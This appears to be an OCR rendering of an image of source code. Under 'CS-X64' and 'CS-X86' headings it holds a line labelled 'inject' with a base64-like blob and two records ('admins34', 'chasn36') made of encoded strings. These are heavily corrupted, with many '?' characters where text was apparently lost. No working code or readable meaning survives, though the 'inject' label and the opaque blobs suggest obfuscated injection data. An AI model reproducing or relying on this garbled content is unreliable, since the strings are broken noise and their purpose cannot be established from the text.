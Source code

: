 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



admins34|2,?4;6,???4?;???10???,Y;1?4,??9;18?,???u;22,?C;26,??5??;30????,f;34????,???o;38,??g;4?2,z;4??6,J;??5???0,K;5?4,????q;58??,0?;6???2??,9;6??6,f;7??0,t;??7?4,D;???7???8,b;8???2??,r?;8???6,L???;???90,V;?94,?,;98,?K;?102,j???;??106?,Y;1???10,C???;????1???14????,9;???11??8,???9;122???,x;1???26,???K;1??30,B;??134,????M;|????hA??r4C0h?46???mlY9Y?Y?9x????yCu????zU????2C0LA?5v???hIfx???DnoC???LMgV??nB?z???r???N???LJNBq?KyU2q????T9l?01059??g????D???vfDZe?tVnD?D5w0??bw???l???vrzUY????L09zV???nx0???,3?ljK????zL???NjV??mAYvg????HC???hzm9B??Vw???9????PfBx9????ITKxE?rB?CL3???M=qregred



chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv
